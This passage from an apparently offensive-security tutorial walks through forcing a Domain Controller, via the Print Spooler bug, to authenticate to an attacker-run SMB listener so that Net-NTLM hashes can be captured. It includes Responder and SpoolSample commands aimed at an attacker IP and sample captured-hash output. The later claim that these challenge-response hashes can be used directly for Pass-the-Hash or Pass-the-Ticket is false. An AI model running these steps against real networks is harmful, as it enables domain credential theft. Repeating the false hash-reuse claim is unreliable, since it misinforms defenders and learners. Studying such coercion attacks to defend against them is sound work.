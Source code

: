 3. **NTLM Authentication Attempt**:
   When the target machine (the Domain Controller) connects to the attacker-controlled SMB server, it attempts to authenticate using **NTLM**. This authentication mechanism sends a **Net-NTLM hash** (the encrypted challenge-response pair) to the attacker’s system.

4. **Capture the NTLM Hash**:
   The attacker’s **SMB listener** (e.g., tools like **Responder** or **Inveigh**) captures the NTLM hash during this authentication process. This hash can then be used in various attacks such as **Pass-the-Hash (PtH)** or **Pass-the-Ticket (PtT)** to gain unauthorized access to other systems in the domain.

### Practical Steps of the Attack

#### 1. **Set up an SMB Listener (Attacker’s Machine)**

The attacker runs a tool such as **Responder** or **Inveigh** on their machine to act as a fake SMB server. This tool will capture the NTLM hashes when the Domain Controller tries to authenticate.

Example using **Responder**:
```bash
python Responder.py -I eth0
```

#### 2. **Trigger the Domain Controller to Authenticate to the Malicious SMB Server**
The attacker uses **SpoolSample** to force the Domain Controller to authenticate to the malicious SMB server. **SpoolSample** exploits the Print Spooler vulnerability by sending an RPC request to the Domain Controller to connect to a printer hosted on the attacker’s machine.

Example SpoolSample command:
```bash
SpoolSample.exe <target_dc> <attacker_ip>
```

- `<target_dc>`: The IP address or hostname of the Domain Controller.
- `<attacker_ip>`: The IP address of the attacker’s SMB server.

This command tells the Domain Controller to reach out to the attacker's system, expecting it to be a print server.

#### 3. **Capture the NTLM Hash**:
Once the **Domain Controller** (or another target) connects to the attacker’s SMB server, the SMB listener (Responder/Inveigh) captures the NTLM hash. The attacker can now use this hash for further attacks.

Example output from Responder:
```bash
[+] NTLMv2-SSP Hash     : DOMAIN\User::DomainController:lmhash:ntlmhash:challenge
```

#### 4. **Using the Captured NTLM Hash**:
The attacker can now leverage this NTLM hash to perform **Pass-the-Hash (PtH)** or **Pass-the-Ticket (PtT)** attacks, giving them access to other systems in the domain.

- **Pass-the-Hash**: The attacker can use tools like **Mimikatz** or **Impacket’s psexec** to authenticate to systems using the captured hash.
  